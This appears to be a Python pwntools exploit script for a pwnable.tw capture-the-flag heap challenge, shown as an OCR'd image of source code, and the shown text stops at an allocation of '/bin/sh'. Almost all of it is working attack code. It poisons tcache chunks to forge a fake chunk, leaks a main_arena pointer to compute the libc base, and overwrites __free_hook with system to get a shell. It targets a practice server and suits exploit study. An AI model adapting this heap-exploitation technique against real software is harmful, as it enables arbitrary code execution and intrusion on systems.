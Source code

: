 ```python
        r = remote("chall.pwnable.tw", 10207)

    return r

def allocate (p, size, data):
    p.sendlineafter (b'Your choice :', b'1')
    p.sendafter (b'Size:', size)
    p.sendafter (b'Data:', data)

def free (p):
    p.sendlineafter (b'Your choice :', b'2')

def info (p):
    p.sendlineafter (b'Your choice :', b'3')    

def main():
    p = conn()
    name = 0x602060
    ptr = 0x602088
    p.sendafter (b'Name:', p64 (0) + p64 (0x501))

    allocate (p, b'15', b'1')
    free(p)
    allocate (p, b'81', b'12')
    free(p)

    allocate (p, b'15', b'A' * 16 + p64 (0) + p64 (0x61) + p64 (name + 0x500))
    allocate (p, b'81', b'123')
    allocate (p, b'81', p64 (0) + p64 (0x21) + p64 (0) * 3 + p64 (0x21))

    
    allocate (p, b'15', b'12345')
    free(p)
    allocate (p, b'70', b'123456')
    free(p)

    allocate (p, b'15', b'A' * 16 + p64 (0) + p64 (0x51) + p64 (name + 16))
    allocate (p, b'70', b'1234567')
    
    print ("This is for later exlpoit ####################################################################################################3")    
    allocate (p, b'15', b'12345')
    free(p)
    allocate (p, b'50', b'123456')
    free(p)
    
    allocate (p, b'70', b'12345678')
    free(p)
    info(p)
    p.recvuntil (p64(0) + p64 (0x501))
    main_arena = u64 (p.recv(8))
    libc.address = main_arena - 0x3ebca0
    print ('The address of main_arena is : ', hex (main_arena))
    print ("The address of libc is : ", hex (libc.address))

    


    allocate (p, b'15', b'A' * 16 + p64 (0) + p64 (0x41) + p64 (libc.symbols['__free_hook']))
    allocate (p, b'50', b'1234567')
    allocate (p, b'50', p64 (libc.symbols['system']))

    allocate (p, b'30', b'/bin/sh\x00')
```